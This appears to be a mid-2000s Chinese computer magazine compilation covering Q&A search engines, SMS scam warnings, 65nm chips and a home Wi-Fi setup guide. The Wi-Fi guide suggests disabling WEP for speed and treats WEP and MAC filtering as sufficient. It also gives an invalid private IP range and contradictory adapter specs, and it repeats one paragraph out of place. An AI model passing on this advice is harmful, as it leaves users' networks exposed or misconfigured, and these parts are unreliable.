Google 无疑是这个行业的领导者，提到搜索行业，我们不得不看看Google在怎么做。我们发现，中文Google网站并没有提供类似的服务。而在英文网站，Google很早就推出了一项回答服务（answers.google.com），但这项服务与国内的问答搜索不同，它采用网民提问，并设置一个愿意支付的费用，由Google的工作人员来为网民搜索寻找正解。我们看到这样的方式带来了收入（每条回答最低2.5美元），也使问题与回答更加有意义，不会出现国内问答搜索中充斥着搞笑、无厘头问题这样的麻烦。由于收费的关系，回答也是非常详尽的，例如我们在一条愿意付费30美元的关于如何提高网球技术的问题中，Google不仅给出了详细的建议，而且提供了10多条相关的链接，可以让该用户了解更多的专业知识，省去了自己搜索过滤的麻烦。在不提供付费功能的国内问答搜索中，就看不到如此专业、耐心的回答者了。这应该是国内厂商们可以学习的一个方向。

### 目标相同：问题搜索

据统计，2004年国内搜索引擎的市场规模为12.5亿元，随着上网用户的增多和中小企业逐步接受搜索引擎的在线广告形式，搜索已成为互联网新‘钱途’。6月底，纳斯达克Google股价首度突破300美元大关，Google从85美元到300美元仅用了312天，Google让整个互联网世界都看到了搜索引擎的巨大商业价值。巨大的‘钱途’、成功的典范，对于搜索商犹如强心针一样，使之处在亢奋的战争状态，不断寻找着新的战机。

新浪‘爱问’和百度‘知道’似乎让人们看到了互动式搜索引擎的端倪。这种搜索引擎与以前我们习惯使用的搜索引擎到底有多大区别呢？首先，从搜索技术来看，搜索引擎的基础都是关键词库；第二个是匹配问题，如果单是靠关键词来匹配的话，在现在的互联网中搜索到的信息就过于庞杂；而在互动式搜索引擎中会运用一些自然语言的处理技术，使搜索引擎真正理解用户的问题，然后寻找适合的答案。

对于问题搜索，虽然比尔·盖茨讲过未来的搜索引擎应该能够回答用户提出的问题，但是现在的搜索引擎显然还无法智能，即便是Google也无法实现对网民问题搜索。Google的付费问题搜索也是通过人工来实现的。新浪和百度很聪明，实行网民提问，由其他网民回答的形式，这样可以不用像Google那样实行收费，因为是由网民回答的，所以对于他们来说是几乎没有成本的，并且由于可以由很多网民回答，很好的解决了问题搜索不能搜索出答案的毛病。

### 警惕：人心散了 搜索不好做了

由于采用了网民回答问题的方式，我们就会有些疑问，不准确的答案会不会误导提问者？尤其在吃药等重大问题上。在这方面，新浪爱问已经从网友中选拔了一些专家或者与专业网站进行合作，来为用户提供医药方面的审核以及当用户提出一些有针对性或是紧迫性的问题的时候，专家来给出一些专业的回答。这类搜索引擎另一个问题就是如何激发网民回答问题的热情，毕竟专家的数量是有限的，而问题绝对会井喷般出现。新浪爱问已经在进行一些积分换奖品的活动。我们建议新浪可以把用户的积分与其他产品结合起来，例如可以用积分在游戏平台中购买道具、衣服，可以在无线服务中发送短信、下载铃声。国内厂商也可以向Google学习，推出专业问题的收费服务，由专人来回答，或者由特殊网民来回答，对回答详尽准确的用户，提问者给予一定报酬。网民的热情得到充分激发才能体现出这类搜索服务的价值。

伴随着中国互联网产业的蓬勃发展，搜索引擎市场从无到有，走过了奇迹般的快速成长之路，已被认为是邮件、短信和网络游戏后互联网市场的第四桶金。根据艾瑞市场咨询（iResearch）最新的研究显示，中国搜索引擎市场规模已达到12.5亿元，预计2007年将达到令人惊叹的56.2亿元。每个用户都有搜索的需求。这种互动的问答搜索一定有巨大的市场，因为每一个人在每一天当中会有很多很多的问题。所以说市场需求从一个广义上来讲，给‘用户解答问题’这样一个定义上来说，所有的人都是这种搜索引擎潜在的用户。新浪爱问已经在国内抢得了先机，而已经推出类似服务的百度，能否凭借独家搜索技术开拓新局面？另外，中文Yahoo、中文Google、搜狗等搜索厂商无疑都会虎视这块市场，一场新的搜索引擎排位战即将展开。

（本刊编辑部 张健）

## 短信防骗：不要和陌生人说话

“短信骚扰”愈演愈烈。
案件回放：“你在太平洋百货成功刷卡消费890元，如果有什么疑问，请与本银行卡管理部联系。”前不久，很多北京市民都接到了这样类似的短信，这条短信背后却隐藏着精心谋划的诈骗。

其作案流程为：踩点（先了解人气旺的商场）→制作短信→发送短信→受害者进行查询→“工作人员”让受害者将自己卡上的现金转入银行保密卡内→将受害者转入的现金分解到多张银行卡上便于提取→诈骗成功。

在北京市公安局日前破获的一起短信诈骗案中，犯罪嫌疑人王某和同伙阿勇等人购买短信群发器、手机和电源稳压器等等，编辑短信，发给北京所有的号码，以每天几千条群发短信，在短短的十几天内，利用手机短信诈骗成功9起，诈骗金额达100多万元。警方当场缴获手机4部，在家中起获赃款20余万人民币，手机大概有80多部，手机卡100余张，各种银行卡41张，假身份证19张，短信群发器57部。

从中奖短信到银行卡诈骗，被称为超新传媒的手机短信已经成为骗子们的一大工具。据北京市社情民意调查中心日前进行的联合调查显示，在北京的手机用户中，收到过欺诈短信的人已达71.9%。欺诈短信内容的调查显示，接到过中奖信息的市民占调查人数的92.2%。而今年下半年刚刚出现的银行卡划账短信，已迅速增长到24.1%。另据上海市公安局统计，7月中旬到10月，警方共接到违法短信举报线索16191条，涉及诈骗的53%，兜售违禁物品的占45%，提供招嫖或者色情信息的占42%。

11月1日，公安部、信息产业部、中国银行业监督管理委员会在全国范围内统一开展手机违法短信息治理工作。群众收到手机违法短信可直接打110举报，对其中涉嫌违法犯罪的线索警方要坚决依法查处，并视情况通过有关部门对涉案手机停止服务，对涉案银行账户予以冻结，同时依据违法犯罪行为的性质、情节及造成的社会危害程度，依法追究有关涉案人员的责任。仅不到一周，群众举报短信诈骗的就超过万起！

### 建好防骗“防火墙”

从最初利用消费者的“贪心”到现在利用消费者的“担心”，诈骗的形式在不断翻新，其目的只有一个，那就是套出消费者的金钱。中国消费者协会投诉部主任邱建国指出，有两种人比较容易受骗，一是渴望一夜暴富、有贪心的人，另一种是缺乏基本判断常识的人。面对形形色色的短信骗术，要建好防骗“防火墙”。

从心理学角度看，只要能引起人们反应的刺激，都能成为骗子的手段。早期中奖类骗术利用了人们的侥幸得利心理，当消费者对这种骗术产生了心理上的“免疫”时，骗子选择了“科技致富信息”、“善意提醒”等刺激点来适应消费者心理的变化。正是由于消费者的怕失财、不确信的心理，才会对骗子给予的“危机信息”进行核查和探究，结果也就落入了骗子精心设计的陷阱，如银行卡短信诈骗。

马皑还认为，骗子得逞的另外一个关键原因是，很多消费者对相关信息的掌握不对称。以手机短信诈骗银行卡余额的骗术为例，消费者对银行卡服务中心的电话号码不熟悉，对银行卡的管理和使用规则不熟悉，商家、银行以及相关管理部门也没有及时提供足够的信息，消费者无法辨别真相。当骗子为人们“善意”提供相关虚假信息时，消费者在担心受损失、怕银行或商家出错的心理驱使下，自然会去探究骗子所提供的信息。

另外，骗子的频频得逞还与相关部门的被动型防范和预警信息公开不及时有关。马皑说，其实一些诈骗手法在一些地方出现了很久了，但相关部门并没有主动对此进行分析预测，并联合媒体进行广泛宣传。当然，一些诈骗案件没有及时破案也让行骗者更加有恃无恐。

公安部也提醒广大群众注意“五不要”：
- 第一，不要轻信虚假信息，要用头脑来甄别。
- 第二，不要因贪小利而受违法短信的诱惑。
- 第三，不要拨打短信中的陌生电话，以防受骗。
- 第四，不要泄露个人信息，特别是银行卡信息。
- 第五，不要将资金转入陌生的账户。

短信公害肆虐，许多消费者认为是电信运营商失责，如果运营商加强对短信的监管，就会堵住违法的源头。但有的运营商（如北京移动公司市场部）说，短信内容涉及用户隐私，运营商只有管理权而无执法权，无权监控。有专业人事指出，整个短信市场的规模，每年大致200亿元，其中，不包括手机对手机（点对点）的短信收入，包括非法短信在内的垃圾短信市场规模就达几十亿元的规模。看来，监管空挡的形成，不在于技术因素，在于权利，也包括利益。看来，短信公害考验的不仅是智慧，还有法律以及执行体制、机制等等。

据悉，信息产业部、公安部等部门将在年底前联合发布《通信短信息服务管理规定》。随着有关法律法规的逐步完善，短信公害的空间将会日益缩小。

### 短信诈骗七宗罪

- 手段一：“您的朋友13XXXXXXX为您点播了一首XX歌曲，以此表达他的思念和祝福，请你拨打9XXXX收听”。——回电话听歌可能会造成高额话费。
- 手段二：屡次听到铃声，一接电话又挂。按照号码回拨，对方的录音提示：“欢迎致电香港六合彩……香港中心为广大彩民爱好者提供信息，透露特码。联系电话1395983XXXX。”——以非法“六合彩”招揽客人，而回电话可能既损失话费又容易上当。
- 手段三：“XX，我现在在外出差，手机马上快没钱了，麻烦帮我买张充值卡，再用短信告知卡号和密码。”——该机已被盗，现持机人用盗得的手机发送短信给手机通讯录内的联系人，骗取对方话费。
- 手段四：“你好，移动通信公司现在将对您的手机进行线路检测，请您暂时关闭手机3个小时。”——因某种原因泄露了家庭电话号码，行骗者可能在你关机的时候以“要求汇款”等事由诈骗你的家人或朋友。
- 手段五：“我是X公司的工程师，现在将对你手机进行检查，为配合检查，请按#90或90#。”——若按指示进行按键，SIM卡卡号可能被骗取，行骗者利用该卡肆无忌惮地打电话。
- 手段六：收到开头为0941或0951的未接来电，一回拨即收费500元。——利用0941、0951加值型的付费电话。
- 手段七：“是XX省公证处公证员XX，恭喜你的号码在XX抽奖活动中中奖了，奖品是小轿车一部，价值8.8万元，请你带着本人身份证和750元手续费去XX处领奖。”——利用人们的贪利心理设计“巨奖陷阱”。

（本刊编辑部 张健）

## 65纳米魔力何在引无数英雄竞折腰

1965年，还是仙童公司电子工程师的摩尔提出了著名的摩尔定律。到现在，这条定律诞生了40年。40年来，半导体器件的发展历程一直遵循着这一定律。进入2005年，IBM、德国英飞凌、韩国三星和新加坡特许半导体公司联合的团队以及美国德州仪器公司等厂商，都推出了65纳米工艺制作的半导体集成电路样品。我国台湾省的台积电也在2005年年底批量生产65纳米器件。一种标志芯片发展水平的参数从90纳米过渡到65纳米，不仅是简单的技术革新。我们看到，在PC芯片制造领域，Intel迫不及待地想上马65纳米工艺流水线。

### 65纳米真神了

纳米一词是由古希腊文字“nano”衍生而来，长度为十亿分之一米。人的一根头发的直径大约为9万纳米。65纳米工艺的处理器芯片上的功能部件的尺寸平均为65纳米。与当下流行的90纳米工艺相比，65纳米工艺可以使每个芯片上集成的晶体管数目增加一倍，也就是说和同样大小的P4芯片，将容纳两倍数量的晶体管。同时，采用65纳米线宽工艺后，可以比90纳米工艺降低20%的器件功耗，运行速度则提高50%，相应地还可以大幅降低生产成本。

65纳米工艺不仅提高了处理器的性能，对于功能上的贡献更是功不可没。从Intel最新发布的处理器蓝图上看，Intel将在明年推出采用了65纳米制程工艺的桌面和移动处理器。在桌面处理器市场上，Intel将发布代号为Presler、Cedar Mill和Conroe的处理器，而移动市场上Intel将推出代号为Yonah的双核心处理器。65纳米减小了芯片核心的面积，就为双核甚至多核提供了空间，实际上，代号为Presler的处理器就是一款双核心处理器，核心面积140平方毫米，目前官方正式命名Pentium D 900系列，主频分别为2.80GHz、3.00GHz、3.20GHz和3.40GHz，支持800MHz前端总线频率。不仅如此，65纳米工艺更可以让处理器上具备4MB甚至更多的二级高速缓存，而目前的主流90纳米工艺要实现同样多的缓存是需要绝对的高成本投入的。在某论坛中，网友们纷纷猜测未来的处理器单元甚至有可能包含1G的高速缓存、多媒体控制芯片等，处理器单元成为真正的PC动力之心！

### 摩尔又说对了

40年来，半导体器件的发展一直遵循着“每两年芯片中的晶体管数目将翻倍”的摩尔定律。65纳米工艺的出现只不过是在此印证了摩尔的判断，事实上，摩尔本人在定律推出6年后就说过：我从未想到过这则定律能屡屡奏效。然而，令他本人意想不到的是，摩尔定律每次发挥效用时，都会存在一支无形的大手操纵市场的走向。

时间追溯到2004年，AMD推出了更符合民意的兼容x86平台的64位计算技术，并在其后的时间里依靠强大的宣传攻势在零售市场上占尽了先机。一方面，AMD再也不提处理器频率的问题，将使用者的注意力集中到了程序执行效率层面；另一方面，Intel在提高处理器频率上面显得黔驴技穷了。于是，出于市场策略的考虑，Intel缩短了研发65纳米工艺的时间。据悉，英特尔共投资20亿美元，用于在亚利桑那州改造其Fab 12晶圆厂，改造后该厂全面采用65纳米制程。此项投资同时也将为英特尔带来丰厚的利润回报。与那些仍旧使用200毫米晶圆的老厂相比，通过使用较大的晶圆和较小的雕刻工具，芯片生产商可以削减1/3的成本。

### 65纳米也只是过渡

正如摩尔在接受媒体采访时所说：“有一个时期，我相信1微米会成为极限。但那个极限很快就跨越了，根本没有构成什么障碍。接着，我又认定四分之一微米也许走到尽头了，可它还是没有停步。要知道，目前进行的探索是六十五分之一微米……”

处理器制造业可谓是没有极限可言的，因为一种工艺在提高频率上达到了极致，就会马上出现另外一种更先进的工艺。90纳米推出的时候，Intel和AMD提出了双核甚至是多核处理器的假设，而65纳米的出现才让这种假设稳定地存在了。即使现有的处理器制造工艺达到了极限，其他可能会有所作为的技术还有量子点和一种被称为“电子自旋学”的通过磁场技术来解决计算问题的方法等等。如此看来，65纳米不过是技术更迭中的一瞬罢了。

（本刊编辑部 张健）

## 网管日记之无线超完全攻略

### 玩无线必懂之知识

假如你的无线局域网知识也是懵懵懂懂、一知半解，那就先好好跟我这位朋友Sunny一起了解一下吧。

万事开头难！对初次接触无线局域网的你来说，一旦想要架设自己的无线局域网，首先面临的问题是怎样从市面上不同规格和种类的无线产品中，买到符合自己需要的产品，但这要求你起码对它们有基本认识。

### 认识一下802.11无线网络家族

所谓无线网络，就是利用无线电波作为信息传输的媒介构成的局域网络，与有线网络用途基本相同，最大的区别在于传输媒介不同。

让我们先了解一下无线网络的802.11无线协议吧，为了让不同厂商所制造的无线产品能够遵循相同的通讯标准来进行连接，IEEE（美国电气及电子工程师学会的英文简称）在1997年提出了IEEE 802.11标准，也就是我们常听说的各种无线标准的总称，从1997年至今，IEEE也增加了不少新的标准，我们常说的什么802.11a、802.11b以及802.11g等应用最多的三大标准，这三种规格不但传输速度和通讯距离有明显的差异，还存在互不相容的情况，因此在选购无线产品时，这是第一个需要留意的指标。

### 网络专家流云告诉你

有这么多标准，怎样才能保证所有厂商的无线产品之间能正常通讯连接呢？IEEE并没有提供这种协议，这也正是有众多无线产品厂商共同组成Wi-Fi（Wireless Fidelity，无线保真）联盟——无线以太网协会WECA的原因。凡是通过其兼容性测试的产品，都被准予打上“Wi-Fi CERTIFIED”标记。在选购IEEE 802.11b无线产品时，最好挑选带有Wi-Fi标记的产品，以保证产品之间的兼容性。而且在Wi-Fi联盟之下，很多厂商在机场、车站、咖啡店、图书馆等人员较密集的地方设置了“热点”，这些无线热点让你能以免费或付费方式获得Wi-Fi服务，直接访问Internet，这样当你拥有迅驰或加装了无线网卡的笔记本就可以在很多地方，随时随地上网，国内热点可以到http://tech.sina.com.cn/wifi/finder.shtml进行查询。

### 无线局域网是怎样搭建的呢？

无线局域网的工作模式一般分为两种，Ad-hoc和Infrastructure。

1.  **Ad-hoc**
    这是无线局域网最简单的架构模式，只要两部或以上装有无线网卡的电脑，放置在无线传输范围内，这样就可以启用Ad-hoc（中文意为多点跳跃）对等式无线网络，然后每台电脑都设置同一个SSID（Service Set Identifier，中文意为服务集合标识符）值，不需要任何其他设备（比如：AP），它们之间就能组建一个无线局域网，实现相互连接，资源共享的目的。

    这里的关键是SSID，该技术其实就像是大门密码锁的密码，或是无线局域网中的接头暗号，只要知道你的SSID就能进入你的无线网络。SSID最长可设置32个区分大小写的字符。

2.  **Infrastructure 基础式集中控制网络**
    这是指通过无线AP（Access Point，中文意为接入点）互连的工作模式，也就是可以把AP看做是传统局域网中的Hub(集线器)。它是一种整合有线与无线局域网架构的应用模式，与Ad-Hoc不同的是配备无线网卡的电脑必须通过无线接入点AP来进行无线通讯，AP的作用就是作为传统的有线局域网络与无线局域网络的桥梁，因此任何一台装有无线网卡的电脑均可通过AP去分享有线局域网络甚至广域网络的资源。

    无线AP覆盖范围有限，想要超出其覆盖范围使用无线连接，就必须利用无线漫游（Wireless Roaming）功能将两个或以上的无线AP连接起来，形成更大覆盖范围。多个无线AP的连接需要用到ESSID（Extended Service Set Identifier，中文意为扩展服务集合标识符），只要把覆盖范围重叠的这些无线AP的ESSID设定成相同值，那么能够连接其中某个AP的无线终端（如迅驰笔记本），就可以在所有AP覆盖范围内做无线连接，如同手机的漫游功能一样。

    假如你已经拥有一个可以连上Internet的网络，而只想在现有网络环境中扩增无线功能，一个单一无线功能的AP就够了，不过你家里是想新建一个能够上网的无线局域网，就需要一个集无线AP功能和路由器于一身的无线路由器了。

### 无线网络的安保

你还需要了解关于无线网的一些安全知识，当你的数据通过无线电波进行传播时，非常容易被隐藏在某处的人从中截取，为防止这种情况发生，需要一些安全手段，目前比较流行的有WEP和WPA两种基本保护手段。

1.  **WEP (Wired Equivalency Privacy, 有线对等式加密)**
    它是无线网络最基本的安全功能，利用64或128位的加密方式，把通过无线传输的数据重新加密编码成没有意义的乱码，这样一来，在没有正确的解密密钥情况下，无法破译出传输内容，也无法进行连接。

2.  **WPA (Wi-Fi Protected Access, Wi-Fi保护访问)**
    它是在WEP技术发现漏洞后，由Wi-Fi联盟和IEEE联合制定出的能够更加保证无线传输安全的技术，它不像WEP那样使用静态密钥规则，而是通过TKIP (Temporal Key Integrity Protocol, 动态密钥完整性协议)将密钥的初始向量增加到48位，而且可以使用动态产生的多组密钥，因此能大大减少非法用户窃取数据包的机会。同时，WPA也增强了加密数据的完整性，不再采用线性算法对数据帧进行校验。

### 买无线产品前你一定要知道

### 跟无线产品Say Hello

无线网络硬件设备主要包括4种：即无线网卡、无线AP、无线路由和无线天线。当然，并不是所有家庭无线网络都需要这4种设备。事实上，只需几块无线网卡，就能组建一个小型的对等式无线网络。当需要增加家庭网络接入的灵活性，或者需要连接原来的台式机时，才需要使用无线AP。只有当实现Internet接入时，才需要无线路由。而无线天线主要用于放大信号，以接收更远距离的无线信号，从而延长无线网络的覆盖范围。下面我们分别介绍一下。

#### 1. 无线网卡

无线网卡的作用类似于以太网中的网卡，作为无线网络的接口，实现与无线网络连接。无线网卡根据接口类型不同，主要分为三种类型，即PCMCIA无线网卡、PCI无线网卡和USB无线网卡。需要注意的是，支持迅驰技术的笔记本电脑都内置有无线网卡，因此，无需再另行购买。

PCMCIA无线网卡仅适用于笔记本电脑，支持热插拔，可以非常方便地实现移动式无线接入。PCI接口无线网卡适用于普通的台式机使用。USB接口无线网卡适用于笔记本电脑和台式机，支持热插拔。不过，由于笔记本更多地是使用PCMCIA接口网卡，因此，USB网卡通常被用于台式机。

#### 2. 无线AP

无线接入点或称无线AP（Access Point），其作用类似于以太网中的集线器。当家庭网络中使用无线AP后，即可大幅扩展网络覆盖范围，区域为一个以无线AP为中心，20~30米为半径的圆。

无线AP都拥有一个或多个以太网接口，用于无线与有线的连接，可以将安装双绞线网卡的电脑与安装无线网卡的电脑连接在一起，从而实现无线与有线无缝融合。

#### 3. 无线路由器

无线路由器事实上就是无线AP与宽带路由器的结合。借助于无线路由器，可实现家庭无线网络中的Internet连接共享，实现ADSL、Cable Modem和小区宽带的无线共享接入。如果不购置无线路由，就必须在无线网络中设置一台代理服务器才可以实现Internet连接共享。

无线路由器也通常拥有4个以太网接口。如果家庭中原来拥有安装双绞线网卡的电脑，可以选择多端口无线路由器，实现无线与有线的连接，并共享Internet。否则，可只选择拥有一个以太网端口的无线路由器，从而节约购置资金。

#### 4. 无线天线

当室内空间较大，或为跃层结构时，随着距离的延长，信号将逐渐减弱，传输速率也会明显下降，此时，就必须借助无线天线对所接收或发送的信号进行增益。无线天线通常连接至无线AP或无线路由。

### 装无线就买套装

现在市面上的无线产品已经琳琅满目，可以任君挑选了，不过厂家打出的无线套装组合往往不但产品有特色，价格也比购买单独的产品低很多，而且同品牌的产品配合使用也非常稳定。下面为大家介绍几款市面比较流行的无线套装，分为高中低三档，大家可以根据自己的经济实力和需求选购。

#### 1. 较高档次产品

| 产品型号 | 特点 | 备注 |
| :--- | :--- | :--- |
| Buffalo WBR2-G54 + WLI-CB-G54 (802.11g) | Buffalo是世界著名的外设品牌，无线网络产品一向以形象美观、性能强大而出名。WBR2-G54继承了Buffalo产品一贯的无天线外形，速度比前代产品更为稳定。WLI-CB-G54则是市场上信号最好的无线网卡之一。 | 这套套装的实际使用效果相当出色，惟一的缺点就是其价格太高了。 |
| 华硕WL-500b + WL-103b (802.11b) | 华硕进入网络产品市场的历史并不悠久，但产品型号众多，性能表现也极强。这套套装产品是华硕的经典产品，传输速度和信号的稳定性都是国产产品中的第一等产品，与世界名牌相比毫无差距。 | 经过降价后，性价比大大提高。 |

#### 2. 中档产品

| 产品型号 | 特点 | 备注 |
| :--- | :--- | :--- |
| TP-Link TL-WR541G + TL-WN510G (802.11g) | TP-Link一直是网络产品中的高性价比产品。其产品设计上并不在外观和功能上做过多的尝试，但在基础的传输性能上却出类拔萃。这套套装是TP-Link的新产品，在性能上已经超过了不少台湾名牌产品。 | 价格却并不高。 |
| Cisco-Linksys BEFW11S4 + Cisco-Linksys WPC11 (802.11b) | Linksys是Cisco网络产品的品牌，堪称是无线网络的第一名牌，很多商业热点都采用Linksys的产品作为节点设备。这套套装是Linksys的经典产品。 | 当年的价格也曾非常高昂，现在随着技术进步已降价，虽然802.11b的速度慢了一些，但其综合性能依然不是杂牌产品所能比的。 |

#### 3. 价格低廉产品

| 产品型号 | 特点 | 备注 |
| :--- | :--- | :--- |
| CG-WLCB54GS + CG-WLCB54GS (802.11g) | Corega(可瑞加)CG-WLCB54GS无线网卡外形时尚轻薄，非常适合笔记本电脑使用。由于采用了USB1.1通用接口设计，因此用于台式电脑也是一个不错的搭配方案。 | 此款网卡为标准CardBus界面，符合IEEE802.11g传输规范，并且支持Super G模式，传输速率最高可达108Mbps。 |
| NETGEAR MR814 + MA521 (802.11b) | MR814是无线网络巨头网件（NETGEAR）的产品。 | |

# 网络专家流云告诉你

1. 认证：为保证无线网络设备之间的兼容性，设备上应当贴有Wi-Fi认证标识。
2. 标准：IEEE 802.11常用的标准有3种，性能和兼容性见下表。
3. 速度：尽管IEEE 802.11b的标准带宽只有11Mbps，但由于TI（德州仪器）PBCC调制技术的采用，被称为802.11b+标准的产品已达到22Mbps，甚至个别品牌的产品能达到44Mbps。而802.11g+的产品通过双通道模式使原有802.11g的54Mbps翻了一倍，更加达到了108Mbps。带宽增加会使数据传输变得更快捷，更适于多媒体数据传输。因此，在价格大致相同的情况下，建议选择传输速率更高的产品。
4. 距离：无线网络的有效覆盖直径在室内为20米～30米。毫无疑问，无线覆盖范围越大，用户就可以离无线AP越远，移动空间也就越大，也就更能随心所欲地选择接入位置。
5. 安全：无线传输数据的安全非常重要。尽量考虑支持WEP以上的安全功能，如WPA等，如果无线AP能支持MAC地址过滤就更好了，这样，就可以彻底拒绝未经授权的无线网卡的加入。

无线三大标准 802.11 a/b/g 规格表

| 标准 | 802.11a | 802.11b | 802.11g |
| --- | --- | --- | --- |
| 覆盖范围 | 室外约75米，室内约8米～24米 | 室外约90米，室内约30米～45米 | 室外约90米，室内约30米～45米 |
| 频率 | 5GHz | 2.4GHz | 2.4GHz |
| 最高速度 | 54Mbps | 11Mbps | 54Mbps |
| 优点 | 速度快；不会与蓝牙设备或者手机相互干扰 | 低成本；与802.11g相互兼容 | 快速；产品可选择性高，与802.11b兼容 |
| 缺点 | 与802.11b和802.11g无线网络不兼容；覆盖范围较小 | 共享大文件或宽带时速度慢；可能与蓝牙设备或者手机相互干扰 | 可能与蓝牙设备或者手机相互干扰；比802.11b要稍微贵一些 |

按照 Sunny 家里的情况，2 台台式机、1 台老式笔记本、1 台迅驰笔记本，为了让所有设备获得更好的通讯质量，我选择用无线路由器直连他家中的处于房间正中的小区宽带入口的方式，这样需要 2 张 PCI 无线网卡（这样无线路由器不会限制于电脑主机的摆放位置），1 张 PCMCIA 无线网卡和一部无线路由器，在市场逛的时候正好碰到一套 D-Link 的 802.11g + 108M 无线套装，无线路由器 DI-624 + 加上 DWL-G650 + 增强型无线 PCMCIA 网卡，590 元，再加上一块 PCI 无线网卡和一个 USB 无线网卡，一共花费不足 1000 元。
台式 PC 之所以选择 PCI 接口网卡，原因在于 PCI 相对于 USB 接口而言，一是能够提供更高的总线带宽；二是适用于各种操作系统，三是运行稳定，不会莫名其妙地从系统中消失。
老式笔记本不支持迅驰技术，因此，采用 PCMCIA 接口无线网卡。相对于 USB 而言，虽然都支持热插拔，但 PCMCIA 运行更稳定，带宽也更高。
迅驰技术提供了对无线网络的支持，迅驰 2 代甚至提供了对 IEEE802.11g 的支持，因此，无需再购置无线网卡。
建议选择无线路由器作为接入设备。原因在于，无线路由器不仅可以实现电脑的互连和 Internet 连接共享，无线网络连接更简单、方便，而且还保留了连接传输以太网络的潜能。
选择一款 USB 产品可以用来应急和调试。

# 实战无线局域网

## 功能最完善的无线路由方案

所谓无线路由器方案，是指采用无线路由器作为集线设备，实现计算机之间的无线连接，并共享 Internet 接入。
该无线组网方案的特点是能够灵活地移动所有的客户端电脑，无论你怎样搬动电脑都可以在无线覆盖的范围内享受 Internet，包括台式机在内。同时这种方案还很好地兼容了以前的有线局域网，可以实现各种方式的共享连接。而且由于无线路由的位置不受 PC 所在位置的限制，可以放在能够覆盖面积最大的点上。这些也都是我为 Sunny 选择无线路由的理由。该方案适用各种形式的 Internet 连接共享，Sunny 的小区宽带也可以轻松应付。

## 内部软件配置是关键

### 1. 配置你的无线路由器

将 ADSL Modem（或小区宽带）连接至无线路由器的 WAN 口，普通台式机连接至 LAN 口，即可实现家庭网络的 Internet 无线共享，如图 1 所示。



被称为802.11b+标准的产品已达到22Mbps，甚至个别品牌的产品能达到44Mbps。而802.11g+的产品通过双通道模式使原有802.11g的54Mbps翻了一倍，更加达到了108Mbps。带宽增加会使数据传输变得更快捷，更适于多媒体数据传输。因此，在价格大致相同的情况下，建议选择传输速率更高的产品。

下面，以 D-Link DI624+ 为例介绍无线路由配置。DI624+ 默认的 IP 地址为“192.168.0.1”，子网掩码为“255.255.255.0”。管理员账号为“admin”，密码为空。不同无线路由默认的 IP 地址会有所不同，请查阅所购买产品的说明书。

第一步：将无线网卡的 IP 地址设置为“192.168.0.2”，子网掩码为“255.255.255.0”，打开 IE 浏览器，在“地址栏”中键入“192.168.0.1”，并回车，显示用户登录窗口。
第二步：在“用户名”框中键入“admin”，“密码”框保持为空，单击“确定”按钮，显示所示配置主窗口。
第三步：选择“Home”标签，单击“Wireless”按钮，显示如图2所示无线配置页面。选择“Enabled”选项，启用该无线路由的无线接入点功能，并在“SSID”框中键入家庭无线网络名称。由于加密传输会对性能和传输速率有较大影响，所以，若无需加密传输，可在“WEP”栏中选择“Disabled”选项。在“Channel”下拉列表中可以选择该无线路由使用的信道。当室内只有一个无线AP或无线路由时，可以选择任意信道；当室内拥有两个或两个以上AP，或与其他家庭无线AP的覆盖范围有重叠时，则为每个AP或路由设置不同信道。



第四步：单击“WAN”按钮，显示广域网配置页面。如果住宅小区提供动态 IP 地址服务，可选择“Dynamic IP Address”（动态IP地址）选项；如果小区为每个用户分配了静态 IP 地址，则应当选择“Static IP Address”（静态IP地址）选项，然后，依次在“IP Address”、“Subnet Mask”（子网掩码）、“ISP Gateway Address”（ISP提供的网关地址）、“Primary DNS Address”（主DNS解析地址）、“Secondary DNS Address”（从DNS解析地址）框中键入 IP 地址、子网掩码、默认网关、主 DNS 的 IP 地址和辅 DNS 的 IP 地址；如果采用 ADSL 接入 Internet，则应当选择“PPPoE”选项，然后分别在“Username”和“Password”框中键入从 ISP 处申请的用户名和密码。

第五步：单击“LAN”按钮，显示局域网配置页面。分别在“IP Address”和“Subnet Mask”框中键入该无线路由的局域网 IP 地址，用于实现与局域网的连接。如果小区没有采用“192.168.0.0”私有 IP 地址段，可以采用系统默认值。如果与小区使用的 IP 地址段发生冲突，可以使用“172.160.0.0~172.160.31.254”或“10.0.0.0~10.255.255.254”中的任意一段 IP 地址。

第六步：单击“DHCP”按钮，显示动态 IP 地址分配页面。选择“Enable”选项，启用 DHCP 服务，无线网络中的客户端只需在网络连接属性中采用系统默认的“自动获取 IP 地址”和“自动获取 DNS 服务器的地址”选项即可，无需再为每个客户端设置 IP 地址信息。然后，分别在“Starting IP Address”（起始IP地址）和“Ending IP Address”（终止IP地址）框中分别键入要分配的 IP 地址的起止范围。
第七步：单击“Apply”按钮，保存对设置的修改，重新引导无线路由。

### 小提示

配置无线路由器的四个通用要点
虽然各个无线路由器的配置界面并不相同，但操作的模式是类似的，注意几个关键点即可。
★获得无线设备的 IP 地址和登录账号密码，可以从说明书中找到。
★开启 AP 功能，在有 SSID 提示处给出你自定的名称。
★将 ISP 提供给你的登录信息设置进无线路由的 WAN 部分，小区宽带设置 IP 即可，ADSL 设定 PPPoE 的登录账号。
★开启路由 DHCP 功能，以便给客户端的设备提供 IP 地址。

### 2. 把你的电脑连接设定好

第一步：当无线 AP 或无线路由配置完成后，无线客户端将显示如图 3 所示“无线网络连接”对话框，提示当前可用的网络。如果无线网络没有采用加密传输，应当选中“允许我连接到选择的无线网络，即使它是不安全的”复选框。如果采用 WEP 加密，则需要单击“高级”按钮，在“无线网络属性”对话框“关联”选项卡中选中“数据加密（WEP 启用）”复选框。



该无线组网方案的特点与无线路由器方案非常相似，不同之处在于，该方案采用不具有路由功能的无线AP，从而降低设备购置费用。需要注意的是，ADSL Modem的路由和网络安全功能较差。

该方案仅适用于ADSL接入方式，并且ADSL Modem必须具有路由功能，不适用于Cable Modem和住宅小区LAN接入方式。

### 2. 代理服务器+无线AP方案

所谓代理服务器+无线AP方案，是指以无线AP作为集线设备，实现电脑之间的无线通讯，并借助代理服务器实现Internet连接共享。该无线方案的结构示意如图6。



该无线组网方案的优点是兼容有线、无需布线和全面覆盖。其缺点就是比较依赖代理服务器。只有代理服务器处于开机状态时，才能实现Internet连接共享。而且由于代理服务器必须长期处于开机状态，既会耗费大量电能，又会加速计算机硬件损坏。加上代理服务器无法移动不说，当连接RJ-45接口的Modem时，代理服务器还必须安装一块10/100Mbps以太网卡。

### 3. 对等无线网络方案

所谓对等无线网络方案，是指两台或多台计算机使用无线网卡搭建对等无线网络，实现计算机之间的无线通讯，并借助代理服务器实现Internet连接共享。该无线方案的结构示意如图7。



